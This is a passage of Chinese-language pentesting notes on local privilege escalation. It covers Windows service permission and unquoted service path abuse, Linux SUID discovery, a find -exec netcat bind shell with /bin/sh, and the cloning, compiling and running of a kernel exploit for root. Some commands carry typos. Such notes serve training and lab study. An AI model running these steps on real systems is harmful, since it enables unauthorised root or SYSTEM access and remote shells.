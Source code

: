 #### #案例3: win2012-不安全的服务权限配合MSF-本地权限

原理:即使正确引用了服务路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多的权限，例如，可以直接修改它导致重定向执行文件。
过程:检测服务权限配置-制作文件并上传-更改服务路径指向-调用后成功

```
accesschk.exe -uwcqv "administrators" *
sc config "NewServiceName" binpath="C:\test.exe"
sc start "NewServiceName ”
```

#案例4: win2012-不带引号服务路径配合MSF-Web,本地权限
原理:当windows服务运行时，会发生以下两种情况之一。如果给出了可执行文件,并且引用了完整路径，则系统会按字面解释它并执行。但是，如果服务的二进制路径未包含在引号中，则操作系统将会执行找到的空格分隔的服务路径的第一个实例。
过程:检测引号服务路径-利用路径制作文件并上传-启用服务或重启-调用后成功

```
wmic service get name,displayname,pathname,startmode| findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

D:\Program Files\Java\jdk-11.0.11\bin\java.exe

D:\Program.exe
```

## Linux提权

两个信息收集: LinEnum, linuxprivchecker
两个漏洞探针: linux-exploit-suggester linux-exploit-suggester2

#### Linux提权SUID配合脚本演示-Vulhub

漏洞成因: chmod u+s给予了suid  u-s删除了suid
使程序在运行中受到了suid root权限的执行过程导致提权过程:探针是否有SUID (手工或脚本) -特定SUID利用-利用吃瓜-GG

```
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;

touch cuoni
find cuoni -exec whoami \;
find cuoni -exec netcat -lvp 5555 -e /bin/sh \;
netcat Xx.Xx. Xx.XX 5555

```

参考利用: https://pentestlab.blog/2017/09/25/suid-executables/

#### Linux提权本地配合内核漏洞演示-CVE-2017-16695

提权过程:连接-获取可利用漏洞-下载或上传EXP-编译EXP -给权限执行-GG

```
git clone https://github.com/Jewel591/Privilege-Escalation.git
cd Privilege-Escalation
# 下面进行编译
gcc 45010.c -o 45010
# 添加执行权限
chmod +x 45010
./45010
# 成功提权到 root。
whoami
root
```
